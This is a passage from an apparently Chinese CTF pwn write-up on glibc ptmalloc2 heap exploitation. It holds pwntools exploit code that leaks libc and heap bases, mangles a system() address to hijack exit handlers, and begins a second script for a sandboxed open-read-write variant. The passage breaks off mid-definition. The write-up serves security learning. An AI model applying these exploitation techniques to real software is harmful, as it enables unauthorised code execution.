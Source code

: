 ```python
# 获取key的值
res = res[6]
# 计算出key加密后的地址
manba = remove_high_digits(rol(0x401700^res),16)
addr = remove_high_digits(rol(system_addr^res),16)
print("key:",hex(res))
print("libc_base",hex(base_libc))
print("heap_base",hex(base_heap))
print("system_addr",hex(system_addr))
print("exit_function:",hex(exit_function))
print("addr",hex(addr))

add(0,0x68,p64(4)+p64(addr)+p64(base_heap+0x42420))
ru(b">>> ")
sl(b"5")
print("key:",hex(res))
print("libc_base",hex(base_libc))
print("heap_base",hex(base_heap))
print("system_addr",hex(system_addr))
print("exit_function:",hex(exit_function))
print("addr",hex(addr))
ia()

```

## ptmalloc2 it's myheap plus（orw+exit）

> 相对于ptmp只是多了一个sandbox限制 就和Arahat0师傅文章中的流程一模一样 多了一个orw的利用 大致原理都是相同的
>
> 值得一提的是本地通了但是远程打了好久没通后面发现远程不让我以rw的方式打开flag 而是只允许我以r方式打开 

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


# file_name = "./vuln"
url = "127.0.0.1"
port = 49979

# elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b *main+34")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def debug():
    gdb.attach(p,"b *main+34")
    input("输入请继续")
def add_with_no_chunk(index):
```